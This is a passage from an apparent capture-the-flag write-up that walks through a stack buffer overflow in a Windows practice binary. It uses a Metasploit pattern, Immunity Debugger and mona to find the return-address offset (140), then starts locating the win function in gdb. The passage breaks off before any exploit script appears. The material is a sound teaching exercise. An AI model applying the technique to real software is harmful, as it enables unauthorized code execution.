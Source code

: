We can see the program prints our give me a string then receives out input using the get() call which is vulnerable to buffer overflow

So obviously our goal is to return to the win function

Unlike using gdb to debug i don't know if that is possible 

But in this case i'll use `Immunity Debugger`

So i'll hop on to my windows box and run the binary one my windows machine
![image](https://user-images.githubusercontent.com/113513376/217090561-3582499d-757e-4bca-b0b5-2ace6694ae01.png)

So with this i'll attach the process on immunity debugger
![image](https://user-images.githubusercontent.com/113513376/217090666-8a33b8d7-ca7b-45ee-86ae-ef7c221874eb.png)

Now i will generate a msf pattern

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ msf-pattern_create -l 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

Now this is the string i'll give the binary as input

The program crashes 
![image](https://user-images.githubusercontent.com/113513376/217091167-08e3c036-d782-4d4f-995b-f7af604e54c9.png)

So with this i can use the mona plugin to get the offset

```
Command: !mona findmsp -distance 250
```
![image](https://user-images.githubusercontent.com/113513376/217091847-883f5faa-62cc-496e-a898-347bf7bb0dcb.png)

Here's the important part

```
Log data, item 16
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x37654136 (offset 140)
```

Cool the offset is 140

Now i'll get make the exploit script

But before that i'll get the address of the win function using gdb

```
┌──(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ gdb-multiarch -q vuln.exe
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.11
Reading symbols from vuln.exe...
[*] Not a valid file format: Not a valid ELF file (magic)
gef➤  info functions
All defined functions:

File ./debian/tmp/usr/i686-w64-mingw32/include/math.h:
166:    void __mingw_raise_matherr(int, const char *, double, double, double);
168:    void __mingw_setusermatherr(int (*)(struct _exception *));
276:    int _matherr(struct _exception *);

File ./mingw-w64-crt/crt/CRT_fp10.c:
9:      void _fpreset(void);

File ./mingw-w64-crt/crt/charmax.c:
```